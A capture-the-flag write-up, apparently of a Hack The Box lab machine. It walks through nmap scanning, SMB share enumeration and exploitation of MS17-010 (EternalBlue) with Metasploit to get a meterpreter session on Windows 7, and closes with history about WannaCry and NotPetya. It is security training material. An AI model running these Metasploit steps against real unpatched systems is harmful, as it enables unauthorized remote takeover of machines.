








## Table of Contents

## Reconnaisance

Start out by running `nmap` as always.



This gives us quite a few TCP ports open but the 5 digit ones we don't really care about. We're looking at the other three, 135, 139 and 445. Ports 139 and 445 are typically where Windows SMB is running. We can see in the host script results from `nmap` that this is a Windows 7 Professional 7601 Service Pack 1 machine.

_Coming to this machine in 2024, it's well known what the attack vector is (just given the name and from word of mouth about this particular box). But assuming I didn't know, the next step would be to Google exploits for this specific OS and Service Pack. Doing that, you'd easily find MS17-010_



Here is a brief [explanation](https://www.varonis.com/blog/smb-port) of the differences in the SMB ports.

## Enumeration

We could really just jump right to [exploitation](#exploitation) at this point but I did this on "Guided Mode" with a friend that at the time was still learning and this path has you enumerate SMB, so we will here too.

Using `smbclient` (or `crackmapexec`), we can easily list out the SMB Shares.



That's really it for enumerating SMB. We can see there's 5 shares. Now to exploiting this.

## Exploitation

Knowing what we know about the attack vector, we can start up `metasploit`. After it starts up, we can search for the exploit `ms17-010` and we get some good looking results.



We `use 2` since we know our target machine is Windows 7 and it sets the target for us.

```bash
set RHOSTS 10.129.70.139
set LHOST tun0
exploit
```



_Yes, I put `execute` instead of `exploit`. Stop laughing at me._

Just like that we have a meterpreter session.

## Foothold

We can use some nifty meterpreter commands to get some information.



At this point, we own the system. We are the King of the castle and have full access. We can get the user and root flags from here.





## Conclusion

This machine is fun to do. It's quick, especially with Metasploit, and easy. It demonstrates how severe this MS17-010, EternalBlue, vulnerability really was and the damage it could/can do. After this vulnerability was released by [The Shadow Brokers](https://darknetdiaries.com/episode/53/) (after being stolen from the NSA), multiple malwares were created. The first notable being [WannaCry](https://darknetdiaries.com/episode/73/) ([Wikipedia](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)). The next notable would be [NotPeta](https://darknetdiaries.com/episode/54/), a variant of the [Petya](<https://en.wikipedia.org/wiki/Petya_(malware_family)>) malware which has been attributed to Russian hacking groups.
